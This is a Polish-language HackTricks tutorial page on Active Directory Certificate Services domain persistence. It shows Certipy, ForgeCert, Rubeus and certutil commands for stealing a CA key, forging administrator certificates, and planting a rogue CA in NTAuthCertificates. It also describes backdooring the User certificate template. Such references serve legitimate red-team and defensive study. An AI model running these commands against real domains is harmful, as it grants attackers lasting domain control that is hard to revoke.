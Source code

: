 # AD CS Domain Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**To jest podsumowanie technik utrzymywania domeny przedstawionych w [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)**. Sprawdź to, aby uzyskać dalsze szczegóły.

## Fałszowanie certyfikatów za pomocą skradzionych certyfikatów CA - DPERSIST1

Jak można rozpoznać, że certyfikat jest certyfikatem CA?

Można ustalić, że certyfikat jest certyfikatem CA, jeśli spełnione są następujące warunki:

- Certyfikat jest przechowywany na serwerze CA, a jego klucz prywatny jest zabezpieczony przez DPAPI maszyny lub przez sprzęt, taki jak TPM/HSM, jeśli system operacyjny to wspiera.
- Pola Issuer i Subject certyfikatu odpowiadają wyróżnionej nazwie CA.
- W certyfikatach CA obecne jest rozszerzenie "CA Version" wyłącznie.
- Certyfikat nie zawiera pól Extended Key Usage (EKU).

Aby wyodrębnić klucz prywatny tego certyfikatu, narzędzie `certsrv.msc` na serwerze CA jest wspieraną metodą za pośrednictwem wbudowanego GUI. Niemniej jednak, ten certyfikat nie różni się od innych przechowywanych w systemie; dlatego można zastosować metody takie jak [technika THEFT2](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) do jego wyodrębnienia.

Certyfikat i klucz prywatny można również uzyskać za pomocą Certipy, używając następującego polecenia:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
Po zdobyciu certyfikatu CA i jego klucza prywatnego w formacie `.pfx`, można wykorzystać narzędzia takie jak [ForgeCert](https://github.com/GhostPack/ForgeCert) do generowania ważnych certyfikatów:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
Użytkownik, który jest celem fałszowania certyfikatu, musi być aktywny i zdolny do uwierzytelnienia w Active Directory, aby proces zakończył się sukcesem. Fałszowanie certyfikatu dla specjalnych kont, takich jak krbtgt, jest nieskuteczne.
{% endhint %}

Ten fałszywy certyfikat będzie **ważny** do daty końcowej określonej oraz **tak długo, jak certyfikat CA jest ważny** (zwykle od 5 do **10+ lat**). Jest również ważny dla **maszyn**, więc w połączeniu z **S4U2Self**, atakujący może **utrzymać trwałość na dowolnej maszynie w domenie** tak długo, jak certyfikat CA jest ważny.\
Ponadto, **certyfikaty generowane** tą metodą **nie mogą być unieważnione**, ponieważ CA nie jest ich świadoma.

## Zaufanie do fałszywych certyfikatów CA - DPERSIST2

Obiekt `NTAuthCertificates` jest zdefiniowany jako zawierający jeden lub więcej **certyfikatów CA** w swoim atrybucie `cacertificate`, z którego korzysta Active Directory (AD). Proces weryfikacji przez **kontroler domeny** polega na sprawdzeniu obiektu `NTAuthCertificates` pod kątem wpisu odpowiadającego **CA określonemu** w polu Wydawca autoryzującego **certyfikatu**. Uwierzytelnianie postępuje, jeśli znaleziono dopasowanie.

Certyfikat CA podpisany samodzielnie może być dodany do obiektu `NTAuthCertificates` przez atakującego, pod warunkiem, że ma on kontrolę nad tym obiektem AD. Zwykle tylko członkowie grupy **Enterprise Admin**, wraz z **Domain Admins** lub **Administratorami** w **domenie głównej lasu**, mają uprawnienia do modyfikacji tego obiektu. Mogą edytować obiekt `NTAuthCertificates` za pomocą `certutil.exe` z poleceniem `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`, lub korzystając z [**Narzędzia do zdrowia PKI**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool).

Ta zdolność jest szczególnie istotna, gdy jest używana w połączeniu z wcześniej opisanym sposobem wykorzystania ForgeCert do dynamicznego generowania certyfikatów.

## Złośliwa niewłaściwa konfiguracja - DPERSIST3

Możliwości **trwałości** poprzez **modyfikacje deskryptora zabezpieczeń komponentów AD CS** są liczne. Modyfikacje opisane w sekcji "[Domain Escalation](domain-escalation.md)" mogą być złośliwie wdrażane przez atakującego z podwyższonym dostępem. Obejmuje to dodanie "praw kontrolnych" (np. WriteOwner/WriteDACL/etc.) do wrażliwych komponentów, takich jak:

- Obiekt komputera AD **serwera CA**
- **Serwer RPC/DCOM serwera CA**
- Dowolny **obiekt lub kontener AD potomny** w **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** (na przykład kontener szablonów certyfikatów, kontener autorytetów certyfikacji, obiekt NTAuthCertificates itd.)
- **Grupy AD, którym przyznano prawa do kontrolowania AD CS** domyślnie lub przez organizację (takie jak wbudowana grupa Cert Publishers i wszyscy jej członkowie)

Przykład złośliwej implementacji obejmowałby atakującego, który ma **podwyższone uprawnienia** w domenie, dodającego uprawnienie **`WriteOwner`** do domyślnego szablonu certyfikatu **`User`**, przy czym atakujący byłby głównym uprawnionym do tego prawa. Aby to wykorzystać, atakujący najpierw zmieniłby własność szablonu **`User`** na siebie. Następnie, **`mspki-certificate-name-flag`** zostałby ustawiony na **1** w szablonie, aby włączyć **`ENROLLEE_SUPPLIES_SUBJECT`**, co pozwala użytkownikowi dostarczyć nazwę alternatywną w żądaniu. Następnie atakujący mógłby **zarejestrować** się, korzystając z **szablonu**, wybierając nazwę **administrator domeny** jako nazwę alternatywną, i wykorzystać uzyskany certyfikat do uwierzytelnienia jako DA.


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
